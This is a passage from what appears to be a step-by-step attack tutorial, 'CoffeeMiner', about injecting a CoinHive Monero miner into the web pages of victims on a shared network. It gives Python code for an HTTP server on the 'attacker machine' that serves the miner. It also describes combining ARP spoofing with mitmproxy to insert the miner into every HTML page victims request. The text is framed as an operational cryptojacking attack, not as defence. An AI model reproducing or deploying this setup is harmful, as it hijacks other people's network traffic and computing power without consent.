 ```python
    return Injector(args.path)

```


### 2.4 HTTP Server
As we have seen, the injector adds a line to the html, with a call to our javascript crypto miner. So, we need to have the script file deployed in a HTTP Server.

In order to serve the javascript cryptocurrency miner, we will deploy a HTTP Server in the attacker machine. To do that, we will use the Python library 'http.server':
```python
#!/usr/bin/env python
import http.server
import socketserver
import os

PORT = 8000

web_dir = os.path.join(os.path.dirname(__file__), 'miner_script')
os.chdir(web_dir)

Handler = http.server.SimpleHTTPRequestHandler
httpd = socketserver.TCPServer(("", PORT), Handler)
print("serving at port", PORT)
httpd.serve_forever()
```
The code above is a simple HTTP Server that will serve our crypto miner to the victims, when they require it.

The javascript miner, will be placed in the /miner_script directory. In our case, we have used the [CoinHive](https://coinhive.com/) javascript miner.


### 2.5 CoinHive crypto miner
[CoinHive](https://coinhive.com/) is a javascript miner for the [Monero cryptocurrency](https://coinmarketcap.com/es/currencies/monero/) (XMR). It can be added to a website, and will use the user CPU power to calculate hashes with the Cryptonight PoW hash algorithm to mine Monero, based on [CryptoNote](https://cryptonote.org/) protocol.

CoinHive miner makes sense when user stays in a website for mid-long term sessions. So, for example, for a website where the users average session is arround 40 seconds, it doesn't make much sense.

In our case, as we will inject the crypto miner in each one of the HTML pages that victims request, will have long term sessions to calculate hashes to mine Monero.

![CoinHive logo](img/posts/coffeeMiner/coinhive-monero-logo.jpg "CoinHive logo")

## 3. CoffeeMiner, puting all together
The main objective is to tie all the previous concepts in one autonomous deployment. This will be the CoffeeMiner.

The idea is to have the CoffeeMiner script that performs the ARPspoofing attack and set ups the mitmproxy to inject the CoinHive cryptominer into victims HTML pages.
